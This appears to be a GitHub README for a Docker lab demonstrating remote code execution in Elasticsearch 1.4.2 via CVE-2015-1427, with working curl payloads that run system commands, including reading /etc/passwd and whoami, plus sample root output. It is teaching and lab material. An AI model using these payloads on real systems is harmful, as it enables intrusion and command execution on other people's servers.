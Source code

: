 # Remote Code Execution in a vulnerable Elasticsearch container

PoC rely on *CVE-2015-1427* exploitation https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427

## Pre-requisites
- docker
- docker-compose

#### Launch containers

`docker-compose up -d`

Enter in attacker container and play a little with Elastic RCE with `docker exec -it elhackstic_badguy_1 bash`

Check if elastic is responding
```bash 
ping elhackstic_vulnerable_1
```

or 
```bash
curl http://elhackstic_vulnerable_1:9200
```

elastic API will reply :
```
{
  "status" : 200,
  "name" : "Namorita",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.4.2",
    "build_hash" : "927caff6f05403e936c20bf4529f144f0c89fd8c",
    "build_timestamp" : "2014-12-16T14:11:12Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.2"
  },
  "tagline" : "You Know, for Search"
}
```

example of data creation :
```bash 
curl -XPUT 'http://elhackstic_vulnerable_1:9200/twitter/user/yren' -d '{ "name" : "Wu" }'

{"_index":"twitter","_type":"user","_id":"yren","_version":1,"created":true}
```

#### Let's play with code injection

Information gathering

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.System\").getProperty(\"os.name\")"}}}'
```

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getText()"}}}'
```

```bash
curl -XPOST 'http://elhackstic_vulnerable_1:9200/_search?pretty' -d '{"script_fields": {"payload": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}'
```

```
...
        "payload" : [ "root\n" ]
...
```

Finally you easily can get a shell with metasploit.

or try https://github.com/XiphosResearch/exploits/tree/master/ElasticSearch

#### Sources

https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
https://www.exploit-db.com/exploits/36337/
https://www.exploit-db.com/exploits/36415/
